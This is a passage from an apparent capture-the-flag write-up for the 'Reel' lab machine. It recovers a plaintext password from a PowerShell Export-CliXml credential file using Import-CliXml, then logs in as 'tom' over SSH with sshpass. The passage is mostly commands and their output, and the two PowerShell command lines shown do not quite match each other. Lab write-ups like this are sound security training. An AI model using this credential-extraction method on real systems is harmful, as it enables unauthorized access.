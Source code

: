 ## Privilege Escalation

In the same folder, we have `cred.xml` that shows an XML created with PowerShell `Export-CliXml`:

```bash
C:\Users\nico\Desktop>type cred.xml
type cred.xml                                                                                                                
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">                                                                                                            
    <TN RefId="0">                                                                                                           
      <T>System.Management.Automation.PSCredential</T>                                                                       
      <T>System.Object</T>                                                                                                   
    </TN>                                                                                                                    
    <ToString>System.Management.Automation.PSCredential</ToString>                                                           
    <Props>                                                                                                                  
      <S N="UserName">HTB\Tom</S>                                                                                            
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>       
    </Props>                                                                                                                 
  </Obj>                                                                                                                     
</Objs>            
```

So we get the password in plain text using `clixml`:

```bash
C:\Users\nico\Desktop>powershell -c "$cred=Import-CliXml -Path .\cred.xml; $cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred=Import-CliXml -Path .\cred.xml;$pass=$cred.GetNetworkCredential().Password;Write-Output $pass"
UserName    : Tom
Password    : 1ts-mag1c!!!
```

And we have `tom:1ts-mag1c!!!`.

Let's try `ssh`:

```bash
$ sshpass -p '1ts-mag1c!!!' ssh tom@10.10.10.77
Microsoft Windows [Version 6.3.9600]                                                                                         
(c) 2013 Microsoft Corporation. All rights reserved.                                                                         

tom@REEL C:\Users\tom>whoami /priv                                                                                           

PRIVILEGES INFORMATION                                                                                                       
----------------------                                                                                                       

```
